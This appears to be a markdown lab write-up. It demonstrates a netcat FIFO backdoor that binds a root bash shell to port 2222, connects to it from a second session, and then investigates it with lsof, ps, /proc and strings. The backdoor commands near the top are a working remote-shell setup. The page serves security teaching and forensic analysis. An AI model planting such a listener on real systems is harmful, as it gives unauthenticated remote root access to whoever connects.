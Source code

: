 ```yaml
---
layout: default
---
```

[Back](./)

## FIFO Backdoor (First In First Out)
Running 3 WSL linux sessions
The first will be where we run the backdoor.
The second will be where we connect to it.
The third is where we will be running our analysis.

**Machine 1**

Create the backdoor
1. Elevate to root `sudo su`
2. Create a fifi backpipe `mknod backpipe p`
3. Start the backdoor `/bin/bash 0<backpipe | nc -l 2222 1>backpipe`
> In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session. It then takes the output of the bash session and puts it back into the netcat listener.

**Machine 2**

Connect to this backdoor
1. Get IP address info `ip add`
2. Run netcat on the IP + Port `nc 172.20.146.40 2222`

**Machine 1**

Analyze the backdoor
1. Open another tab on the original machine to analyse the backdoor connection using`lsof -i -P`

|Flag       |Define       |
| ----  | ----  |
|-i       |Looking at the open Internet connections.|
|-P       |Telling lsof to not guess what the service is on the ports. Just give us the port number.|
|-p       |List open files associated with the listed process ID.|
Output:
```
COMMAND    PID            USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
nc        1757            root    3u  IPv4  48020      0t0  TCP *:2222 (LISTEN)
nc        1757            root    4u  IPv4  48021      0t0  TCP 172.20.146.40:2222->172.20.146.40:45500 (ESTABLISHED)
```
2. List open files associated with the listed process ID. `sudo lsof -p 1757`
Output::
```
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF  NODE NAME
nc      1757 root  cwd    DIR   8,32     4096 40961 /root
nc      1757 root  rtd    DIR   8,32     4096     2 /
nc      1757 root  txt    REG   8,32    39560  1590 /usr/bin/nc.openbsd
nc      1757 root  mem    REG   8,32    47472  6689 /usr/lib/x86_64-linux-gnu/libmd.so.0.0.5
nc      1757 root  mem    REG   8,32  2216304  6521 /usr/lib/x86_64-linux-gnu/libc.so.6
nc      1757 root  mem    REG   8,32    68552  6801 /usr/lib/x86_64-linux-gnu/libresolv.so.2
nc      1757 root  mem    REG   8,32    89096  6517 /usr/lib/x86_64-linux-gnu/libbsd.so.0.11.5
nc      1757 root  mem    REG   8,32   240936  6325 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
nc      1757 root    0r  FIFO   0,12      0t0 51879 pipe
nc      1757 root    1w  FIFO   8,32      0t0  6659 /root/backpipe
nc      1757 root    2u   CHR  136,2      0t0     5 /dev/pts/2
nc      1757 root    3u  IPv4  48020      0t0   TCP *:2222 (LISTEN)
nc      1757 root    4u  IPv4  48021      0t0   TCP 172.20.146.40:2222->172.20.146.40:45500 (ESTABLISHED)
```
3. List all of the proccesses on the system for all users. `ps aux`
Output:
```
bandit      1657  0.0  0.0   6080  5064 pts/3    Ss   22:01   0:00 -bash
root        1755  0.0  0.0   4780  3196 pts/2    S+   23:54   0:00 bash /home/bandit/fifo-backdoor.sh
root        1756  0.0  0.0   4912  3624 pts/2    S+   23:54   0:00 /bin/bash
**root        1757  0.0  0.0   3532  1220 pts/2    S+   23:54   0:00 nc -l 2222**
bandit      1769  0.0  0.0   7480  3244 pts/3    R+   23:55   0:00 ps aux
```
>-   The output includes information such as the process ID (PID), the user who started the process (USER), the CPU and memory usage, and the command that initiated the process (COMMAND).
>-   The command displays both active processes and those in a "zombie" or "defunct" state.
>-   "ps aux" gives a comprehensive view of the system's current process landscape and can be useful for monitoring system activity, identifying resource-intensive processes, and troubleshooting issues.
4. Change into the proc directory for that pid. `cd /proc/1757` `ls`
Output:
```
ls: cannot read symbolic link 'cwd': Permission denied
ls: cannot read symbolic link 'root': Permission denied
ls: cannot read symbolic link 'exe': Permission denied
arch_status  comm             fd         maps        ns             projid_map  smaps_rollup  task
attr         coredump_filter  fdinfo     mem         oom_adj        root        stack         timens_offsets
auxv         cpuset           gid_map    mountinfo   oom_score      sched       stat          timers
cgroup       cwd              io         mounts      oom_score_adj  schedstat   statm         timerslack_ns
clear_refs   environ          limits     mountstats  pagemap        setgroups   status        uid_map
cmdline      exe              map_files  net         personality    smaps       syscall       wchan
```
> **/proc**  contains a virtual file system that provides information about running processes it does **not exist on the drive.** It allows us to see data associated with the various processes **directly**. This can be very usesfull as it allows us to **dig into the memory of a process that is currently running on a suspect system.**
5. Identigy exactly what the program doing `strings ./exe`
Output:
```
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
          [-m minttl] [-O length] [-P proxy_username] [-p source_port]
          [-q seconds] [-s sourceaddr] [-T keyword] [-V rtable] [-W recvlimit]
          [-w timeout] [-X proxy_protocol] [-x proxy_address[:port]]
          [destination] [port]
        Command Summary:
                -4              Use IPv4
                -6              Use IPv6
                -b              Allow broadcast
                -C              Send CRLF as line-ending
```

> Now we can see the actual usage information for netcat
> We can run strings on the exe in this directory. This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments. We use this all the time to attempt to identify what exactly a program is doing.

[Back](./)

